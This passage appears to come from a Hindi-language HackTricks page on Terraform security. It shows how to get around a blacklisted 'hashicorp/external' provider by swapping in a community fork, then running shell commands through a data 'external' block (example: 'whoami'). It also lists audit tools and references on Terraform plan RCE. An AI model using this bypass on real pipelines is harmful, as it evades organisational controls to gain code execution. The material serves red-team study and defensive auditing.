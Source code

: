 यदि आप ऐसी स्थिति का सामना करते हैं जहाँ `hashicorp/external` को ब्लैकलिस्ट किया गया है, तो आप निम्नलिखित करके `external` प्रदाता को फिर से लागू कर सकते हैं। नोट: हम https://registry.terraform.io/providers/nazarewk/external/latest द्वारा प्रकाशित `external` प्रदाता की एक फोर्क का उपयोग करते हैं। आप अपना खुद का फोर्क या फिर से कार्यान्वयन भी प्रकाशित कर सकते हैं।
```terraform
terraform {
required_providers {
external = {
source  = "nazarewk/external"
version = "3.0.0"
}
}
}
```
फिर आप सामान्य के अनुसार `external` का उपयोग कर सकते हैं।
```terraform
data "external" "example" {
program = ["sh", "-c", "whoami"]
}
```
### ऑडिट टूल्स

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec आपके terraform कोड का स्थैतिक विश्लेषण करता है ताकि संभावित गलत कॉन्फ़िगरेशन को पहचाना जा सके।
* [**terascan**](https://github.com/tenable/terrascan): Terrascan इन्फ्रास्ट्रक्चर ऐज़ कोड के लिए एक स्थैतिक कोड विश्लेषक है।

### संदर्भ

* [Atlantis Security](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)
* [https://blog.plerion.com/hacking-terraform-state-privilege-escalation/](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>HackTricks का समर्थन करें</summary></details>
{% endhint %}
